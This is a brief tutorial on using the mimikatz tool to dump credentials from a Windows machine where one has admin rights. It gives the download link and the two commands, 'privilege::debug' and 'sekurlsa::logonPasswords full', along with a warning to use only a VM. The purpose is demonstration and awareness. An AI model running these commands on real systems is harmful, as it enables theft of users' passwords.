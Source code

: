 
= mimikatz - copy, paste, GO!
Steve Willson 
1/8/18

This tutorial demonstrates how easy it is to steal credentials from a local machine if you have administrative control of that machine. +
More information about mimikatz can be found at: https://adsecurity.org/?page_id=1821

WARNING: *Only do this in a VM! Do not download mimikatz on a work computer.*

Download mimikatz: +
https://github.com/gentilkiwi/mimikatz/releases +
Extract mimikatz +
Execute the mimikatz.exe binary as Administrator. +
Within the mimikatz window enter the following commands:

 $ privilege::debug
 $ sekurlsa::logonPasswords full

This should display a list of all the usernames and passwords that are stored on the computer.

